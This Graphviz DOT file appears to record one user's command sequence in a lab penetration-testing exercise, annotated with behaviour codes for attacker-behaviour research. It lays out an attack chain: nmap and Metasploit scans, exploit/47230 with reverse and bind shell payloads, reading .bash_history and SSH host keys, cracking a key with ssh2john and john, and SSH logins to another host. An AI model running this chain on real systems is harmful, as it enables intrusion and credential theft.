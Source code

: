 // creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -p1-65535 172.18.1.5 M0 "]
	10 [label="setg A6 "]
	14 [label="use windows/meterpreter/reverse_tcp A4 "]
	17 [label="setg LHOST 10.1.135.83 M6 "]
	20 [label="setg LPORT 28605 A6 "]
	25 [label="use auxiliary/scanner/portscan/tcp A4 "]
	26 [label="set RHOSTS 172.18.1.5 M6 "]
	27 [label="set THREADS 24 M6 "]
	28 [label="set PORTS 50000 M6 "]
	29 [label="run -j M8 "]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 M0 "]
	31 [label="show exploits M8 "]
	33 [label="use auxiliary/scanner/portscan/tcp A4 "]
	34 [label="set RHOSTS 172.18.1.5 M6 "]
	35 [label="set THREADS 24 M6 "]
	36 [label="set PORTS 50000 M6 "]
	37 [label="run -j M8 "]
	38 [label="msfconsole M2 "]
	39 [label="set RHOSTS 172.18.1.5 M6 "]
	40 [label="show A5 "]
	41 [label="show all A5 "]
	42 [label="show A5 "]
	43 [label="set exploit M8 "]
	44 [label="set exploit 2019-15107 M8 "]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 M0 "]
	47 [label="use exploit/multi/handler M8 "]
	48 [label="set LHOST 0.0.0.0 M6 "]
	49 [label="set PAYLOAD generic/shell_reverse_tcp M6 "]
	50 [label="set LPORT 14718 A6 "]
	51 [label="set ExitOnSession false A6 A10 "]
	52 [label="exploit -j M8 "]
	53 [label="use exploit/47230 M8 "]
	54 [label="set RHOSTS 172.18.1.5 M6 "]
	55 [label="set TARGETURI / A6 "]
	56 [label="set TARGET 0 A6 "]
	57 [label="set LHOST 10.1.135.83 M6 "]
	58 [label="set LPORT 11265 A6 "]
	59 [label="set PAYLOAD generic/shell_bind_tcp M6 "]
	60 [label="set RPORT 80 M6 "]
	61 [label="set SSL 0 A6 "]
	62 [label="exploit -j M8 "]
	63 [label="use exploit/47230 M8 "]
	64 [label="set RHOSTS 172.18.1.5 M6 "]
	65 [label="set TARGETURI / A6 "]
	66 [label="set TARGET 0 A6 "]
	67 [label="set LHOST 10.1.135.83 M6 "]
	68 [label="set LPORT 2139 A6 "]
	69 [label="set PAYLOAD generic/shell_bind_tcp M6 "]
	70 [label="set RPORT 10000 M6 "]
	71 [label="set SSL 0 A6 "]
	72 [label="exploit -j M8 "]
	75 [label="use exploit/47230 M8 "]
	76 [label="set RHOSTS  M6 "]
	77 [label="set TARGETURI / A6 "]
	78 [label="set TARGET 0 A6 "]
	79 [label="set LHOST 10.1.135.83 M6 "]
	80 [label="set LPORT 26069 A6 "]
	81 [label="set PAYLOAD generic/shell_bind_tcp M6 "]
	82 [label="set RPORT 10000 M6 "]
	83 [label="set SSL 0 A6 "]
	84 [label="exploit -j M8 "]
	85 [label="use exploit/multi/handler M8 "]
	86 [label="set LHOST 10.1.135.83 M6 "]
	87 [label="set LPORT 8871 A6 "]
	88 [label="set PAYLOAD generic/shell_reverse_tcp M6 "]
	89 [label="set ExitOnSession false A6 A10 "]
	90 [label="exploit -j M8 "]
	93 [label="use exploit/47230 M8 "]
	94 [label="set RHOSTS 172.18.1.5 M6 "]
	95 [label="set TARGETURI / A6 "]
	96 [label="set TARGET 0 A6 "]
	97 [label="set LHOST 10.1.135.83 M6 "]
	98 [label="set LPORT 17595 A6 "]
	99 [label="set PAYLOAD generic/shell_bind_tcp M6 "]
	100 [label="set RPORT 10000 M6 "]
	101 [label="set SSL 0 A6 "]
	102 [label="exploit -j M8 "]
	107 [label="sessions -c 3 ls A10 "]
	108 [label="sessions 3 -c ls A10 "]
	110 [label="sessions 3 -c ls A10 "]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt M9 "]
	124 [label="sessions 3 -c ls A10 "]
	130 [label="sessions -c search history A3 "]
	131 [label="sessions -c find history A10 "]
	132 [label="sessions -c find *.bash_history M10 "]
	133 [label="sessions -c find -name *.bash_history M10 "]
	135 [label="sessions -c ls A10 "]
	138 [label="sessions -c ls A10 "]
	139 [label="sessions 3 -c less .bash_history M11 "]
	146 [label="sessions 3 -c find -name ssh M10 "]
	147 [label="sessions 3 -c cd /etc/ssh A16 "]
	149 [label="sessions 3 -c less ssh_host_rsa_key A9 A11 A12 A16 A17 "]
	150 [label="openssh A16 "]
	151 [label="ssh A16 "]
	152 [label="ssh -i /root/ssh M16 "]
	156 [label="ssh -i /root/desktop/ssh M16 "]
	157 [label="less /desktop/ssh A9 A11 A12 A16 A17 "]
	159 [label="less /root/desktop/ssh A9 A11 A12 A16 A17 "]
	160 [label="less /root/Desktop/ssh A9 A11 A12 A16 A17 "]
	161 [label="ssh -i /root/Desktop/ssh 10.1.17.4 M16 "]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub A9 A11 A12 A16 A17 "]
	163 [label="ssh -i /root/Desktop/sshpub 10.1.17.4 M16 "]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	165 [label="ssh -i /root/Desktop/ssh 10.1.17.4 M16 "]
	166 [label="ssh A16 "]
	167 [label="ssh -i /root/Desktop/ssh 10.1.17.4 M16 "]
	168 [label="sessions 3 -c less ssh_config A9 A11 A12 A16 A17 "]
	169 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 M16 "]
	170 [label="chmod 600 /etc/ssh/ssh_comp M15 "]
	171 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 M16 "]
	172 [label="sessions 3 -c cd /usr/bin/ssh A16 "]
	173 [label="sessions 3 -c ls A10 "]
	174 [label="sessions 3 -c less sshd_config A9 A11 A12 A16 A17 "]
	175 [label="sessions 3 -c ls A10 "]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	178 [label="sessions -c find -fname ecdsa A10 "]
	179 [label="sessions -c find -name ecdsa M10 "]
	180 [label="sessions -c find -name ecdsa_key M10 "]
	181 [label="sessions -c find -fname *ecdsa_key A10 "]
	182 [label="sessions -c find -fname ssh_host_ecdsa_key A10 A16 "]
	184 [label="sessions -c ls A10 "]
	185 [label="python ssh2john.py M13 "]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp M13 "]
	187 [label="python ssh2john.py --help M13 "]
	188 [label="python ssh2john.py M13 "]
	189 [label="python ssh2john.py M13 "]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp M13 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john M14 "]
	192 [label="john --wordlist /root/Desktop/john M14 "]
	193 [label="john --wordlist /usr/share/wordlists/rockyou.txt /root/Desktop/john M14 "]
	194 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 M16 "]
	195 [label="ssh -i /usr/Desktop/ssh_comp 10.1.17.4 M16 "]
	196 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 M16 "]
	197 [label="chmod 600 /root/Desktop/ssh_comp M15 "]
	198 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 M16 "]
	0 -> 1 [constraint=false]
	1 -> 10 [constraint=false]
	10 -> 14 [constraint=false]
	14 -> 17 [constraint=false]
	17 -> 20 [constraint=false]
	20 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 110 [constraint=false]
	110 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 135 [constraint=false]
	135 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	rankdir=LR
}
